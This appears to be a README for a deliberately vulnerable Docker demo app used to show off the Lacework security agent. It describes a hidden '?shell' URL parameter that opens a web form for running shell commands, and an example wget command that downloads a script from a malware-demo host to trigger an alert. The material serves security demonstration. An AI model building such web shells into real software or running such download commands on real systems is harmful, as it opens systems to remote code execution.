 # lacework-demo-app

Simple web demo application with vulnerabilities (couple of low, medium and high) OS and python vulnerabilites).
The image also includes the Lacework agent which can be started by setting the environment variable `LaceworkAgentEnabled=true`.

This image is hosted publicly and can be pulled like this:

```shell
docker pull ghcr.io/timarenz/lacework-demo-app:latest
```

When running this container make sure you map port `5000` (thats where the web app is listening on) and that the environment variables `LaceworkAccessToken` and `LaceworkServerUrl` are set to connect the Lacework agent running in this container to your Lacework account.

The container contains tools like `curl`, `wget`, `jq` and a full blown `bash` shell.

When accessing the application you see a single website and a random cocktail on the lower left side.
With every page load the app reads a random cocktail from `https://www.thecocktaildb.com` to simulate outgoing traffic to an external external host.

In addition if you load the page with the `?shell` parameter, like `http://<IPorFQDN>:5000/?shell` a small terminal icon will apear on the lower left.
Clicking this will open a form that allows you to run shell commands within the container to simluate a "RCE".

A simple example is running `wget  http://lwmalwaredemo.com/install-demo-1.sh` which triggers a critical alert in Lacework.

Make sure you use the [Lacework inline scanner](https://docs.lacework.com/integrate-inline-scanner) to manually upload the image evulation results to you Lacework account.

```shell
lw-scanner image evaluate ghcr.io/timarenz/lacework-demo-app latest --save
```

This gives you more visibility in the vulnerabilities view.
